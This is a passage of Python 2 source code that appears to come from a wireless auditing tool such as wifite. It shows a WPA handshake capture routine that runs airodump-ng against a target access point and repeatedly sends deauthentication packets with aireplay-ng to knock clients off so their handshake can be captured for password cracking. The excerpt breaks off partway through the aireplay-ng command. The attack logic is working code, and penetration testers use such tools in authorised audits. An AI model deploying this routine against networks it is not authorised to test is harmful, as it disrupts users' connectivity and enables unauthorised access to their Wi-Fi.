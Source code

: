        # Remove previous airodump output files (if needed)
        remove_airodump_files(self.RUN_CONFIG.temp + 'wpa')

        # Start of large Try-Except; used for catching keyboard interrupt (Ctrl+C)
        try:
            # Start airodump-ng process to capture handshakes
            cmd = ['airodump-ng',
                   '-w', self.RUN_CONFIG.temp + 'wpa',
                   '-c', self.target.channel,
                   '--bssid', self.target.bssid, self.iface]
            proc_read = Popen(cmd, stdout=DN, stderr=DN)

            # Setting deauthentication process here to avoid errors later on
            proc_deauth = None

            print ' %s starting %swpa handshake capture%s on "%s"' % \
                  (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT) + W, G, W, G + self.target.ssid + W)
            got_handshake = False

            seconds_running = 0
            seconds_since_last_deauth = 0

            target_clients = self.clients[:]
            client_index = -1
            start_time = time.time()
            # Deauth and check-for-handshake loop
            while not got_handshake and (
                    self.RUN_CONFIG.WPA_ATTACK_TIMEOUT <= 0 or seconds_running < self.RUN_CONFIG.WPA_ATTACK_TIMEOUT):
                if proc_read.poll() != None:
                    print ""
                    print "airodump-ng exited with status " + str(proc_read.poll())
                    print ""
                    break
                time.sleep(1)
                seconds_since_last_deauth += int(time.time() - start_time - seconds_running)
                seconds_running = int(time.time() - start_time)

                print "                                                          \r",
                print ' %s listening for handshake...\r' % \
                      (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W),
                stdout.flush()

                if seconds_since_last_deauth > self.RUN_CONFIG.WPA_DEAUTH_TIMEOUT:
                    seconds_since_last_deauth = 0
                    # Send deauth packets via aireplay-ng
                    cmd = ['aireplay-ng',
                           '--ignore-negative-one',
                           '-0',  # Attack method (Deauthentication)
                           str(self.RUN_CONFIG.WPA_DEAUTH_COUNT),  # Number of packets to send
                           '-a', self.target.bssid]
